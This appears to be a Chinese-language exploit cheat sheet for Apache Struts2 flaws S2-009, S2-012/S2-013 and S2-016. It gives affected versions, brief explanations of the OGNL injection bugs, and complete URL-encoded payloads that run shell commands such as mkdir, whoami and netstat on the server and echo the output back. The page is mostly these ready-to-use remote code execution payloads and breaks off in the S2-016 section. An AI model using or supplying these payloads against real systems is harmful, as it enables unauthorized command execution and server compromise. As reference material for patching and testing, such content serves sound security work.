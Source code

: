 

**二 S2-009**

受影响版本：低于Struts 2.3.1.1

EXP:[](http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?foo=%28%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3D+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27mkdir%20/tmp/PWNAGE%27%29%29%28meh%29&amp;z%5B%28foo%29%28%27meh%27%29%5D=true)

```
http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27mkdir%20/tmp/PWNAGE%27%29%29%28meh%29&amp;z[%28foo%29%28%27meh%27%29]=true
```

将会在系统上建立/tmp/PWNAGE文件。

<br>

**三 S2-012、S2-013**

受影响版本：低于Struts 2.3.14.1

struts2中可以通过$`{`express`}`或%`{`express`}`来引用ongl表达式，当配置一个action中有$`{`input`}`或%`{`input`}`且input来自于外部输入时，给input赋值%`{`exp`}`，从而导致任意代码执行。Struts2标签库中的url标签和a标签的includeParams这个属性，代表显示请求访问参数的含义，一旦它的值被赋予ALL或者GET或者 POST，就会显示具体请求参数内容，问题在于，struts竟然把参数做了OGNL解析。

x.jsp

```
&lt;s:a includeParams="all"&gt;Click here.&lt;/s:a&gt;
```

EXP:

```
http://x.x.x.x/x.jsp?a=1$`{`(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23sbtest=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23sbtest.println(%23d),%23sbtest.close())`}`
```



**四 S2-016**

受影响版本：低于Struts 2.3.15.1

在struts2中，DefaultActionMapper类支持以”action:”、”redirect:”、”redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令。

以“redirect”为例进行命令执行：

EXP1:[](http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?redirect:%24%7B%23a%3D%28new%20java.lang.ProcessBuilder%28new%20java.lang.String%5B%5D%20%7B%27netstat%27,%27-an%27%7D%29%29.start%28%29,%23b%3D%23a.getInputStream%28%29,%23c%3Dnew%20java.io.InputStreamReader%20%28%23b%29,%23d%3Dnew%20java.io.BufferedReader%28%23c%29,%23e%3Dnew%20char%5B50000%5D,%23d.read%28%23e%29,%23matt%3D%20%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%20%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29%7D)
